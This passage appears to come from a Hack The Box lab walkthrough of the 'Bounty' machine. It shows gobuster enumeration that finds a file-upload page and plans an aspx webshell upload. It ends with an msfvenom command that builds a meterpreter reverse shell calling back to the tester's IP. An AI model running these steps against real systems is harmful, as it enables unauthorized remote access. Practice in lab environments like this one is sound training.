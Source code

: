 Nikto scan doesn't return anything useful..

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
```

Here I found two existing sub page : `/uploadFiles`, `/transfer.aspx`
I think these two are related.
It seems to be a directory containing uploaded files. But I got 403 forbidden error.
But I got a right page on `/transfer.aspx`

![](attachments/bounty_2.png)

It seems that I can upload files here.
Let's test this function.

It returns an error with `txt` extension file, but accepts `jpg` file.
And I can access the uploaded file from `/uploadedfiles/`.
This will trigger RCE if I can upload `aspx` webshell here.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9000 -f aspx > rshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2875 bytes
```
